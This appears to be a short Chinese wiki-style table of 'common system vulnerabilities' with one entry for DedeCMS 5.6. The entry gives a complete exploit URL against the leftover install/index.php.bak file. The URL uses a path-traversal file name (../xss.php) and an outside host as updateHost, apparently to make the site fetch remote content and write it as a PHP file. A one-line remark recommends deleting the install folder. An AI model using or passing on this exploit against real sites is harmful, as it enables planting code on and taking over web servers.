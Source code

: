 # **仁裕元科技出品- 一些项目中用到的脚本** #

= 1 常用系统漏洞 =
{|
! 软件名称 !! 实例 !! 说明 !!  备注
|-
| dedecms5.6 || http://你的dedecms网址/install/index.php.bak?step=11&insLockfile=a&s_lang=a&install_demo_name=../xss.php&updateHost=http://www.xmyisu.com/ || 安装dedecms 后会生成install/index.php.bak这个文件. || 建议删除install文件夹
}
